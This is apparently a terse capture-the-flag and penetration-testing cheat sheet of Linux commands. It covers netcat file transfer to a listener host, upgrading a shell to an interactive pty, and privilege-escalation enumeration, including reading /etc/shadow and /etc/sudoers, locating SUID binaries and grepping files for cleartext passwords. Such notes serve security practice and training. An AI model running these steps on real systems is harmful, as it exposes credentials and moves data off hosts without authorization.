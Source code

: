 __send file through netcat(listener)__

nc -lvnp port > flag.txt

__send file thru netcat (sender)__

nc -w 3 listener ip port < flag.txt

__python server__

( python3 -m http.server 192.168.0.104:8080 )

__interactive shell__

(python -c "import pty;pty.spawn('/bin/bash')")

__change from non interactive to interactive__

(*echo $SHELL (variable yg dh diset)*echo $TERM*export SHELL=/bin/bash*export TERM=xterm-256color*stty -a*stty raw -a)

__system/user info__

(uname -a, env, whoami, history, pwd -> searchsploit)

__check sudoers__ 

(sudo -l, cat /etc/sudoers)

__other super users__

( grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}')

__network info__

( ifconfig -a, netstat -antup, lsof -i)

__enum serv/softw__

( ps aux, ps -ef)

__SUID files__

(find / -perm -u=s -type f 2>/dev/null)

__pw hashes__

(cat /etc/shadow)

__check cleartxt cred__

(find . -type f -maxdepth 4 | xargs grep -i "password")

__reference__

_http://www.securitysift.com/download/linuxprivchecker.py_

_https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh_

_https://gtfobins.github.io/_

